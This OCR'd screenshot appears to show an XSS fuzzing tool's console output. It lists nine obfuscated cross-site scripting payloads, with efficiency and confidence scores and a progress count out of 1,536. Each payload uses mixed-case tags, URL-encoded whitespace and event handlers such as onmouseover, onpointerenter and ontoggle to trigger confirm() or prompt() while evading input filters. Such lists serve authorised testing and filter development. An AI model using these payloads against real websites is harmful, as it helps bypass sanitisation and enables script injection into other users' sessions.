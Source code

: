 ------------------------------------------------------------
 Payload: <D3v%0dONpOInterEnteR%0a=%0aa=prompt,a()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 233/1536
 
------------------------------------------------------------
 Payload: <d3V%0aONMOUsEOvER+=+(confirm)()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 234/1536
 
------------------------------------------------------------
 Payload: <HTMl%0dONMouSeOVeR%0a=%0a(confirm)()%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 235/1536
 
------------------------------------------------------------
 Payload: <DEtaILS/+/ONPOINTErentER%0d=%0d(confirm)()// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 236/1536
 
------------------------------------------------------------
 Payload: <D3V%0dONmouseovEr%0a=%0aconfirm()%0dx//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 237/1536
 
------------------------------------------------------------
 Payload: <D3V%09OnmOUSeOvEr%0d=%0d[8].find(confirm)//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 238/1536
 
------------------------------------------------------------
 Payload: <D3V%09ONpointERentEr%09=%09confirm()//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 239/1536
 
------------------------------------------------------------
 Payload: <A/+/oNmouSeOvEr%09=%09confirm()%0dx//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 240/1536
 
------------------------------------------------------------
 Payload: <DetAILS%0aONtoGglE+=+a=prompt,a()%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 241/1536
 